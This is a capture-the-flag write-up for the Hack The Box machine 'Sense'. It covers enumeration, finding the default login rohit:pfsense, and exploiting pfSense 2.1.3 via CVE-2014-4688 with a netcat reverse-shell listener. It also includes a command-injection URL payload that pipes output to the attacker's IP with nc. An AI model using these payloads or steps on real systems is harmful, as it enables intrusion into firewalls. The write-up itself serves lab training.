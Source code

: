 # Sense HTB, IP 10.10.10.60

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.60**

![se1](https://user-images.githubusercontent.com/15195048/94268612-4ae0ab00-fef2-11ea-8bf0-ff8204ac3063.png)

**2. ./nmapAutomator.sh 10.10.10.60 All**

 cpe:/a:lighttpd:lighttpd:1.4.35: 

CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052
CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052

**3. Dirb/Gobuster Enumeration**

**dirb https://10.10.10.60 -X .php,.html**

---- Scanning URL: https://10.10.10.60/ ----
+ https://10.10.10.60/edit.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/exec.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/graph.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/help.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/index.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/index.html (CODE:200|SIZE:329)                                                                                                                                                                                      
+ https://10.10.10.60/license.php (CODE:200|SIZE:6692)                                                                                                                                                                                    
+ https://10.10.10.60/pkg.php (CODE:200|SIZE:6688)                                                                                                                                                                                        
+ https://10.10.10.60/stats.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/status.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/system.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/wizard.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/xmlrpc.php (CODE:200|SIZE:384) 


![se2](https://user-images.githubusercontent.com/15195048/94268614-4b794180-fef2-11ea-8106-2deae3a9b260.png)

**gobuster dir -u http://"10.10.10.60" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .txt -r -k**
 
![se3](https://user-images.githubusercontent.com/15195048/94268616-4c11d800-fef2-11ea-8268-4941b8e84663.png)

![se4](https://user-images.githubusercontent.com/15195048/94268619-4caa6e80-fef2-11ea-8d32-f1caa09c04d0.png)

**4. SEARCHPLOIT**

**searchploit lighttpd**

![se5](https://user-images.githubusercontent.com/15195048/94268621-4d430500-fef2-11ea-86e5-a99b379dd30d.png)


**searchploit pfsense**

![se6](https://user-images.githubusercontent.com/15195048/94268622-4d430500-fef2-11ea-8f14-9803af973efe.png)


------------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## Enumerating port 80
Firewall pfsense blocks us from visiting the mentioned pages.
index.php

![se7](https://user-images.githubusercontent.com/15195048/94268625-4e743200-fef2-11ea-9679-8139a41fb032.png)


pfSense is an open source firewall/router computer software distribution based on FreeBSD.

index.html


![se8](https://user-images.githubusercontent.com/15195048/94268629-4f0cc880-fef2-11ea-9042-34872cf29431.png)

![se9](https://user-images.githubusercontent.com/15195048/94268632-4f0cc880-fef2-11ea-9bcc-bc1b5b170fc4.png)


**Interesting Files**

https://10.10.10.60/tree/

![se10](https://user-images.githubusercontent.com/15195048/94268633-4fa55f00-fef2-11ea-878c-593a0be9a053.png)

**SilverStripe v 0.1**

Searching for known vulnerabilities.

Nothing interesting

changelog.txt


![se11](https://user-images.githubusercontent.com/15195048/94268634-4fa55f00-fef2-11ea-95f1-d0b61de60361.png)

system-users.txt

![se12](https://user-images.githubusercontent.com/15195048/94268635-503df580-fef2-11ea-9776-a562703a4119.png)


According to the ticket, there is an account with username Rohit and default password.
Credentials rohit:pfsense

![se13](https://user-images.githubusercontent.com/15195048/94268637-503df580-fef2-11ea-857c-ecb001349ad8.png)


**Pfsense v2.1.3**

![se14](https://user-images.githubusercontent.com/15195048/94268639-50d68c00-fef2-11ea-911c-4785223aae8a.png)

Searching for vulnerability I found **CVE-2014-4688**.

![se15](https://user-images.githubusercontent.com/15195048/94268640-50d68c00-fef2-11ea-9a01-104f3842c192.png)

**Modifications:** lhost, lport, rhost, username, password and start a netcat listener

![se16](https://user-images.githubusercontent.com/15195048/94268643-516f2280-fef2-11ea-9859-9d63edd558b8.png)


**Attacker:**
nc -lvp 9999

![se17](https://user-images.githubusercontent.com/15195048/94268644-516f2280-fef2-11ea-9de1-85702c0b0a6c.png)

user.txt

# Privilege Escalation

## Command Injection Manually

Study the article https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection

**/status_rrd_graph_img.php?database=queues;echo Testing | nc 10.10.14.12 443**

**Attacker:**
nc -nlvp 443
 

We are local admin!
No privilege escalation needed!

![se18](https://user-images.githubusercontent.com/15195048/94268646-5207b900-fef2-11ea-9eb3-6bdb03fe59fe.png)

**Rooted**
root.txt

